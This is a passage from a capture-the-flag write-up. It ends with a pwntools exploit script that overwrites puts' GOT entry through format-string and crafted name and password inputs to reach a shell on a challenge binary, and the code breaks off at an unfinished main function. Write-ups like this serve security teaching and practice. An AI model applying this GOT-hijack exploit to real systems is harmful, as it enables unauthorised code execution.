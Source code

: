 Now when we do this in the server with server's libc offsets, we will get a
shell. Then we just do `cat flag1` and `cat flag2` and we have our flag

- Final Exploit

```python
from pwn import *
import struct


def f(a: int) -> bytes:
    return struct.pack('I', a)


# From objdump -d -Mintel
AddressOfPuts = 0x804c01c
AddressOfPassedFirstHurdle = 0x80492b3
Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
Password = f(AddressOfPassedFirstHurdle)
Filename = './something'

# host = 'host'
# port = 'port'


def gotHijackAndPassword() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 3)]
    p.sendline("250382\x00")
    p.interactive()


def gotHijack() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    p.interactive()


def get_printf_and_exit_address() -> None:
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 3)]
    payload = ("250382\x00" + 'A' * 21).encode()
    p.sendline(payload)
    p.interactive()


def main() -> None:
```